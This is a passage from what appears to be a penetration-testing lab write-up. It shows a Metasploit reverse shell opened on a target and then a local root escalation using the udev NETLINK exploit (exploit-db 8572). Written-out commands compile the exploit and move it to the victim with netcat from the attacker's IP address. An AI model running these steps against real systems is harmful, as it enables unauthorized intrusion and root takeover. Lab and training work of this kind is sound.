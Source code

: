 ``` plain
[*] Started reverse double handler
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo VhuwDGXAoBmUMNcg;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "VhuwDGXAoBmUMNcg\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (192.168.127.159:4444 -> 192.168.127.154:52283) at 2014-06-05 21:34:46 +0300

whoami
daemon
```

So we have a low privilege account. Time for some local privilege escalation. I will use this exploit: http://www.exploit-db.com/exploits/8572/

**Description**

udev before 1.4.1 does not verify whether a NETLINK message originates from kernel space, which allows local users to gain privileges by sending a NETLINK message from user space. 

**Usage**

Pass the PID of the udevd netlink socket (listed in /proc/net/netlink, usually is the udevd PID minus 1) as argv[1].
 
The exploit will execute /tmp/run as root so throw whatever payload you want in there.

Ok, on the command line on the victim, I looked for netcat and fortunately, it's installed:

``` plain
whereis nc
nc: /bin/nc.traditional /bin/nc /usr/share/man/man1/nc.1.gz
```

So I will compile the exploit and send it over netcat. I am on a 64 bit Kali and the target is 32 bit, so I compile it explicitly for 32 bit:

``` plain
gcc -m32 8572.c -o 8572
nc -vv -l -p 5555 < 8572
```

From the victim, I go to the /tmp/ directory and grab the exploit from the attacking machine:

``` plain
nc -v -n 192.168.127.159 5555 > 8572
```

Next, let's look for the PID:

``` plain
cat /proc/net/netlink
```
